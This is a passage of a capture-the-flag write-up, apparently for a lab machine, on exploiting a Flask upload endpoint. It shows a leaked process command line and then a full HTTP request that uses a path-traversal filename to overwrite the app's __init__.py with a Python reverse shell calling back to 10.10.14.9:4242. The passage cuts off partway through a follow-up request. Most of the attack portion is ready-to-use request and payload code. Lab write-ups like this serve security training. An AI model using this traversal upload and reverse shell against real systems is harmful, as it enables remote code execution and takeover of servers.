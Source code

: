 ```http
Content-Disposition: inline; filename=cmdline
Content-Type: application/octet-stream
Content-Length: 0
Last-Modified: Tue, 02 Aug 2022 08:45:38 GMT
Cache-Control: no-cache
ETag: "1659429938.795898-0-1050805960"
Date: Tue, 02 Aug 2022 08:45:38 GMT
Connection: close

/usr/local/bin/python /app/run.py 
```
Now we can assume that the app is running under `/app/`.
Now that we have more information on application, since this is a flask application, we need to check what kind of file we can upload to achieve an RCE.  
Poking around on google we can came across [this source](https://ajinabraham.com/blog/exploiting-insecure-file-extraction-in-python-for-code-execution) that explains how to get an RCE with arbitrary file upload by overwriting the `__init__.py` file.  

## Foothold
### Method 1 - Arbitrary File Upload, `__init__.py` Overvrite
Once we have a foothold path, we can create a python reverse shell payload and forge the `filename` field in order to leverage a path traversal file upload and get an RCE:  
```http
POST /upcloud HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------287371904330582195774088103722
Content-Length: 447
Origin: http://10.10.11.164
Connection: close
Referer: http://10.10.11.164/upcloud
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

-----------------------------287371904330582195774088103722
Content-Disposition: form-data; name="file"; filename="..//..//..//..//app/app/__init__.py"
Content-Type: text/x-python

import socket,os,pty;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.9",4242));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh")

-----------------------------287371904330582195774088103722--
```
Now, flask detects a change on a .py file and since it is configured with `FLASK_DEBUG=1`, the web server automatically reloads and apply the changes.  
As we hit the site again we will have a reverse shell:  
```http
POST /upcloud HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
```